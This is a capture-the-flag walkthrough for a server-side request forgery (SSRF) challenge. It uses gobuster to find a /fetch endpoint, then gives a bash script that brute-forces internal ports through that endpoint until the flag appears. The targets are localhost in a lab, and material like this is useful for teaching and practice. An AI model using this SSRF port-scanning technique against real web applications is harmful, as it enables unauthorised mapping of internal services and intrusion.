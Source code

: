 # SSRF CTF Walkthrough

## Challenge Description
**This website is currently under construction but can reach other internal webservices on the same host, are you able to find the flag?**  


## Walkthrough  


Reach the website landing page:  
![landing-page](./images/landing_page.png)  

Launch a fuzzer/bruteforcer tool like [*gobuster*](https://github.com/OJ/gobuster) to identify website's endpoints:  
```sh
gobuster dir -k -t 2 -u http://localhost  -w /usr/share/wordlists/dirb/big.txt -b 404,401
```  

Gobuster identifies the "fetch" endpoint:  

![fetch](./images/fetch.png)  

Go to that url and inspect the error message:  
![no_url_error](./images/no_url_error.png)  

Try to submit the url parameter:  
![invalid_url_error](./images/invalid_url_error.png)  


Submit an url with the correct schema:  
![correct_url](./images/correct_url.png)  

You know from the challenge description that the website can reach other webservices on the same host, try a random port:  
![no_connection](./images/no_connection.png)  

Unfortunately no luck, you need to create an automation, for example the following script:  
```sh
#!/bin/bash

# Base URL for the public-facing service
base_url="http://localhost/fetch?url="

# Targeting localhost within the container
internal_host="http://localhost"

# Range of ports to brute force (you can adjust this range)
start_port=1000
end_port=30000

# Loop through the port range and make a request to each one
for port in $(seq $start_port $end_port); do
    target_url="${internal_host}:${port}"
    full_url="${base_url}${target_url}"
    
    # Make a request to the /fetch endpoint and store the result
    response=$(curl -s "$full_url")

    # Check if the response contains content and does not have error messages
    if [ -n "$response" ] && [ "$(echo "$response" | grep -c '"status":"success"')" -eq 1 ]; then
        echo "Port $port responded: $response"
    fi
done
```  

With the previous script you get the flag!  
![flag](./images/flag.png)  







